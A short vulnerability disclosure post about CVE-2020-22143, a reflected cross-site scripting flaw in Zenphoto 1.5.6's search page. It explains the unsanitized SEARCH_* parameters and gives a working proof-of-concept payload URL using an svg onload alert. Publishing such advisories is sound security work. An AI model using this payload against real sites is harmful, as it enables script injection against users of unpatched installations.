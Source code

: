 ```yaml
---
cve: "CVE-2020-22143"
slug: "CVE-2020-22143: Reflected XSS in Zenphoto"
title: "Reflected XSS in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-09
tags:
- cve
- xss
---
```

A cross site scripting (XSS) vulnerability in `/page/search/` of Zenphoto 1.5.6 allows attackers to execute arbitrary web scripts or HTML.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22143
- public announcement: https://github.com/zenphoto/zenphoto/issues/1262

<hr />

**Description:**  
The parameters `SEARCH_*` are not sanitized when displayed in the logout link in the search page when the user is connected.

**Payload:**  
```/page/search/?SEARCH_xxx=xxx"></div><u><svg/onload=alert(1)>xxx```

**PoC:**  
![cve-2020-2996 Zenphoto xss](/images/cve-2020-22143.png)
